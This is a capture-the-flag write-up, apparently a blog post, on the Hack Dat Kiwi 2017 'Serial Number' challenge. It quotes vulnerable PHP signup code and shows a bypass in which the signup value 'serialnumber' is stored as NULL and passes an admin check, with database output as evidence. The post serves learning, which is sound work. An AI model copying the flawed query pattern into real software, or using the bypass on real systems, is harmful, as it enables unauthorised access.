 ```yaml
---
layout: post
title: Hack Dat Kiwi CTF 2017 - Serial Number
post_author: pyno
excerpt_separator: <!--more-->
---
```


The challenge here is to bypass a creative authentication mechanism.
You can download the server's source code [here]({{site.github_tree}}/tree/master/files/kiwictf2017/serialnumber), and run
it in local as I did during the CTF.

\<tl;dr\>

To have the flag you just need to login with a serialnuber which
exists in a table named 'serialnumbers', initially populated by
2 entries.

To bypass authentication and print the flag just signup as:
```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```
And then login with the user pyno.

\</tl;dr\>

<!--more-->
Having a look at the code you will notice that all but one input that 
are put in queries are correctly sanitized with placeholders, so it 
was easy to identify the vulnerable point in signup() function, file
user.php:
```php
function signup($username,$password,$serialnumber)
{
	if (!ctype_alnum($serialnumber)) return false;
	if (!ctype_alnum($username)) return false;
	if (!$username or !$serialnumber) return;
	if (sql("select * from users where username=?",$username))
		return false;
	return sql("insert into users (username,password,serialnumber) 
			values ('$username','".md5($password)."',{$serialnumber})");
}
```
But at the beginning of this function serialnumber and username parameters 
are filtered with `ctype_alnum()` (i.e. only alphanumerical chars), and the
password is hashed before the query is executed... Woah challenging!

After a closer look to the query I realized that the variable 
`$serialnumber` is not included in quotes (interesting..)
and, since I'm not very familiar with PHP, it took me some google 
searches to work out what the notation `{$serialnumber}` stands 
for. 

This example should clarify this syntax for those like me who are not
so handy with PHP:
```php
php> $z = "magic";
php> $y = "z";
php> $str = "It's a kind of ${$y} :D";
php> echo $str;
It's a kind of magic :D
```

Ok now let's take a look to the isadmin() function which is the one
we have to bypass with our injection:
```php
function isadmin($user)
{
	return sql("select ? in (select serialnumber from serialnumbers) as result",
		$user->serialnumber)[0]->result!=="0";
}

```
To satisfy this condition we just need the query to return at least one row.
So we need either to:
1. have the same serialnumber of an admin, or
2. inject a serial number into the serialnumbers table (this is not done when
the user is added legitimately), or
3. have somehow magically a row returned by the query

**Option** 1. Clearly impossible. Infact, even if I had known an admin serial
number, the serialnumber field is set to UNIQUE in table users.

**Option** 2. Unescaped var. With the PHP `${}` trick in mind I looked at 
unescaped variables that I could reference and, hey, the  `$password` vairable 
seems good!

So I tried to put the injection in the password field doing a signup like:
```
Username: pypy
Password: 1234
Serialnumber: password
```
This way if I found in serialnumber the value 1234, it means I'm able to inject
the payload in the password field. But unfortunately:

```sql
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
+----+------------+--------------+----------------------------------+
19 rows in set (0.00 sec)
```
It is evident that I can reference the variable `$password` only after the 
md5, so it is useless.

**Option 3**. Try them all. We said we need the query in isadmin() function
somehow to return at least a tuple. We have only 2 variables left.
Since refering to username which is escaped too doesn't seem too
promising, I tried to refer to the serialnumber variable itself.

```
Username: pyno
Password: pyno
Serialnumber: serialnumber
```

What appened surprised me a little:

```
MariaDB [ctf]> select * from users;
+----+------------+--------------+----------------------------------+
| id | username   | serialnumber | password                         |
+----+------------+--------------+----------------------------------+
|  1 | admin      |   2147483647 | 8a26855bd1fe07fc3ec200dfa95cbc55 |
|  2 | kiwimaster |    287364618 | b91f928fb04ab6ce909d46280a00133b |
| 17 | ffdsfds    |        83878 | 83878c91171338902e0fe0fb97a8c47a |
| 18 | ax         |     85472373 | 85472373acac8668b4444dcc4a73ace5 |
| 19 | kljjjjj    |     24830589 | 24830589c2c78c189bc4911670f96624 |
| 33 | calla      |            8 | 8d8cedbaa9c9ce576daa3990991862b3 |
| 38 | pypy       |           81 | 81dc9bdb52d04dc20036dbd8313ed055 |
| 39 | pyno       |         NULL | ae7e3a33fda6ac06a69bec3d5cec16a1 |
+----+------------+--------------+----------------------------------+
```
Hey null, null is good, NULL IS COOL! Let's try a query like the one in
isadmin() when filled with a NULL serialnumber:

```SQL
MariaDB [ctf]> select NULL in (select serialnumber from serialnumbers) as result;
+--------+
| result |
+--------+
|   NULL |
+--------+
1 row in set (0.00 sec)

```
One row! Urray!

So doing login with the pyno user I finally got the flag: VBPspiFWv8NYqBt

** **NOTE** **

A simpler solution is reported by kiwi CTF authors in their 
[Auto-Write-Up](http://2017.hack.dat.kiwi/writeup). They use a direct
approach to exploit the null pointer vulnerability by simply inserting
NULL as serialnumber in the signup form.



